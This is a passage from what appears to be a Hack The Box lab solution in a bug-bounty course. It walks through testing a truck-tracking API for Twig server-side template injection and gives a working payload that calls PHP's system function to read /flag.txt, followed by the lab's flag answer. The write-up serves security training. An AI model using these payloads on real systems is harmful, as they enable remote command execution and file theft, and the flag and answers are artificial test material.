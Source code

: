 In BurpSuite, students need to return to `Proxy` (where the initial request was captured) and forward the initial request. The subsequent request is a POST request to the `api=http://truckapi.htb/?id%3DFusionExpress01` endpoint:

![[HTB Solutions/CBBH/z. images/31b22239ce22941baebb3a9dbb3ec943_MD5.jpg]]

Students need to send this request to Repeater as well, and then forward it to evaluate the response:

![[HTB Solutions/CBBH/z. images/14d92289bad88a7dc76d8e55ccc1e81a_MD5.jpg]]

The query sent in the body of the POST request, `api=http://truckapi.htb/?id%3DFusionExpress01`, returns the ID of the truck, as well as the location, in JSON format.

Code: shell

```shell
{"id": "FusionExpress01", "location": "321 Maple Lane"}
```

From here, students need to test for possible server-side template injection vulnerabilities. By modifying the query with the payload `{{7*7}}`, students will confirm the server is using `Twig` as its templating engine:

Code: shell

```shell
api=http://truckapi.htb/?id%3D{{7*7}}
```

```http
HTTP/1.1 200 OK
Date: Wed, 14 Aug 2024 22:47:55 GMT
Server: Apache/2.4.59 (Debian)
Content-Length: 43
Connection: close
Content-Type: text/html; charset=UTF-8

{"id": "49", "location": "134 Main Street"}
```

With the knowledge that we are now working with `Twig`, students need to look for a way to read local files, or achieve outright remote code execution (which will then be used to read the flag.)

Therefore, students need to use the PHP built-in function `system` and pass an argument to it via Twig's `filter` function, ultimately reading the contents of the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

Additionally, students need to URL encode spaces and the pipe character, making the final payload appear as follows:

```shell
api=http://truckapi.htb/?id%3D{{%2b['cat%2b/flag.txt']%2b%7C%2bfilter('system')%2b}}
```

![[HTB Solutions/CBBH/z. images/effb58c4ff693fdf2eb691ea5b3dd956_MD5.jpg]]

Answer: `HTB{3b8e2b940775e0267ce39d7c80488fc8}`